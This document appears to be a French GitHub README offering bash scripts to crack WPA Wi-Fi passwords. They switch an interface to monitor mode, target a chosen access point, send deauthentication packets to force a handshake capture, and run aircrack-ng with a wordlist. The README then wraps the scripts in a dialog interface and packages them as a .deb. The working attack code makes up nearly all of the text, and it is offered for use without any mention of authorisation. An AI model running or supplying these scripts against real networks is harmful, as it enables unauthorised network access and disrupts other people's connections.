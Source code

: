# Script_bash_crack_wifi

## Script simple

```bash
#!/bin/bash

echo "=== Activation du mode moniteur ==="
sudo airmon-ng check kill
sudo airmon-ng start wlan0

echo ""
echo "=== Scan des réseaux disponibles (Ctrl+C pour stopper) ==="
sleep 2
sudo airodump-ng wlan0mon

echo ""
read -p "Entrez le BSSID de la cible : " bssid
read -p "Entrez le canal (CH) : " channel
read -p "Nom du fichier de capture (sans extension) : " output

echo ""
echo "=== Capture ciblée du handshake ==="
sleep 2
sudo airodump-ng -c $channel --bssid $bssid -w $output wlan0mon &
AIRODUMP_PID=$!

sleep 5
read -p "Appuyez sur Entrée pour envoyer les paquets de désauthentification (Ctrl+C pour annuler)"
sudo aireplay-ng -0 10 -a $bssid wlan0mon

echo ""
read -p "Appuyez sur Entrée pour arrêter la capture"
kill $AIRODUMP_PID

echo ""
read -p "Entrez le chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) : " wordlist

echo ""
echo "=== Lancement du craquage avec Aircrack-ng ==="
sudo aircrack-ng -w $wordlist -b $bssid ${output}-01.cap

echo ""
echo "=== Script terminé. Bonne chance pour le crack ! ==="
```

`Ce qu’il fait :`

* Passe wlan0 en mode moniteur. 
* Lance airodump-ng pour détecter les réseaux.
* Demande le BSSID, canal et nom du fichier de capture.
* Lance la capture ciblée.
* Propose d’envoyer les paquets de désauthentification.
* Puis utilise Aircrack-ng avec le dictionnaire choisi.

## Interface utilisateur en texte (avec dialog)

1. Installation de dialog

```bash
sudo apt install dialog
```

wifi_attack_ui.sh
```bash
#!/bin/bash

# Vérification de dialog
if ! command -v dialog &> /dev/null; then
    echo "dialog n'est pas installé. Lance : sudo apt install dialog"
    exit 1
fi

# Étape 1 : tuer les interférences et passer en moniteur
airmon-ng check kill
airmon-ng start wlan0

# Étape 2 : scan initial
xterm -hold -e "airodump-ng wlan0mon" &
sleep 3
dialog --msgbox "Observe les réseaux dans la fenêtre ouverte.\nNote le BSSID et le canal.\nFerme la fenêtre puis clique OK." 12 50

# Étape 3 : récupération des infos utilisateur
bssid=$(dialog --inputbox "Entrez le BSSID de la cible :" 8 50 3>&1 1>&2 2>&3)
channel=$(dialog --inputbox "Entrez le canal (CH) de la cible :" 8 50 3>&1 1>&2 2>&3)
output=$(dialog --inputbox "Nom du fichier de capture (ex: capture1) :" 8 50 3>&1 1>&2 2>&3)

# Étape 4 : capture ciblée dans un terminal
xterm -hold -e "airodump-ng -c $channel --bssid $bssid -w $output wlan0mon" &
sleep 3
dialog --msgbox "La capture est lancée dans une nouvelle fenêtre.\nClique OK pour envoyer les paquets de désauth." 10 50

# Étape 5 : attaque de désauth
xterm -e "aireplay-ng -0 10 -a $bssid wlan0mon"

# Étape 6 : arrêt de la capture
pkill airodump-ng
sleep 1

# Étape 7 : sélection du fichier dictionnaire
wordlist=$(dialog --inputbox "Chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) :" 8 60 3>&1 1>&2 2>&3)

# Étape 8 : craquage
capfile="${output}-01.cap"
dialog --msgbox "Début du craquage. Ceci peut prendre du temps." 7 50
xterm -hold -e "aircrack-ng -w $wordlist -b $bssid $capfile"

dialog --msgbox "Fin du script. Vérifie si le mot de passe a été trouvé !" 7 50
```
## Étapes pour créer un .deb : `wifi-attack-ui_1.0_all.deb`

1. Crée l’arborescence du paquet
```bash
mkdir -p wifi-attack-ui_1.0/DEBIAN
mkdir -p wifi-attack-ui_1.0/usr/local/bin
```
2. Place ton script dans `/usr/local/bin`
```bash
cp wifi_attack_ui.sh wifi-attack-ui_1.0/usr/local/bin/wifi-attack-ui
chmod +x wifi-attack-ui_1.0/usr/local/bin/wifi-attack-ui
```
 3. Crée le fichier control
```bash
nano wifi-attack-ui_1.0/DEBIAN/control
```

Et colle ceci dedans :

```vbnet
Package: wifi-attack-ui
Version: 1.0
Section: utils
Priority: optional
Architecture: all
Maintainer: Beidi Dina Samuel
Description: Script d’attaque WPA avec interface dialog pour Kali Linux.
Depends: bash, dialog, aircrack-ng, xterm
```
